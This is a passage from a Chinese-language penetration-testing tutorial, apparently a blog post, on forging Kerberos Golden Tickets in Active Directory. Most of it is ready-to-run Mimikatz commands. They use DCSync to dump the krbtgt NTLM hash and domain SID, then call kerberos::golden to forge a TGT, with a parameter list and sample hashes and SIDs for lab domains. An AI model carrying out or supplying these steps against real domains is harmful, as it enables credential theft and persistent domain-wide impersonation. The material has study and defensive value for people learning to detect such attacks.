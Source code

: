 实战中，通常使用 Mimikatz 来提取 krbtgt 的 NTLM-Hash。

1. 获取域名称

```
net view /domain
```

2.Mimikatz 获取 krbtgt 的 HTLM-Hash 及域 SID

```
mimikatz "lsadump::dcsync /domain:test666.com /user:krbtgt"
```

3..Mimikatz 生成黄金票据

```
mimikatz "kerberos::golden /domain:test666.com /sid:S-1-5-21-1497092113-2272191533-193330055 /krbtgt:cac9c793eb3ba2c6abbcc9c14f18a41f /user:test666 /ticket:golden.kirbi"
```

#### [](#利用步骤 "利用步骤:")利用步骤:

##### [](#1-导出krbtgt的Hash "1.导出krbtgt的Hash")**1. 导出 krbtgt 的 Hash**

金票的生成需要用到 krbtgt 的密码 HASH 值，可以通过 mimikatz 中的

```
lsadump::dcsync /OWA2010SP3.0day.org /user:krbtgt
```

命令获取 krbtgt 的值。

[![](https://shu1l.github.io/2020/06/06/qian-xi-huang-jin-piao-ju-yu-bai-yin-piao-ju/1566542295163.png)](https://shu1l.github.io/2020/06/06/qian-xi-huang-jin-piao-ju-yu-bai-yin-piao-ju/1566542295163.png)

##### [](#2-生成Golden-Ticket "2.生成Golden Ticket")**2. 生成 Golden Ticket**

​ 得到 KRBTGT HASH 之后使用 mimikatz 中的 kerberos::golden 功能生成金票 golden.kiribi，即为伪造成功的 TGT。

参数说明：

```
/admin：伪造的用户名
/domain：域名称
/sid：SID值，注意是去掉最后一个-后面的值
/krbtgt：krbtgt的HASH值
/ticket：生成的票据名称
```

```
kerberos::golden /admin:administrator /domain:0day.org /sid:S-1-5-21-1812960810-2335050734-3517558805 /krbtgt:36f9d9e6d98ecf8307baf4f46ef842a2 /ticket:golden.kiribi
```

[![](https://shu1l.github.io/2020/06/06/qian-xi-huang-jin-piao-ju-yu-bai-yin-piao-ju/1566543225966.png)](https://shu1l.github.io/2020/06/06/qian-xi-huang-jin-piao-ju-yu-bai-yin-piao-ju/1566543225966.png)
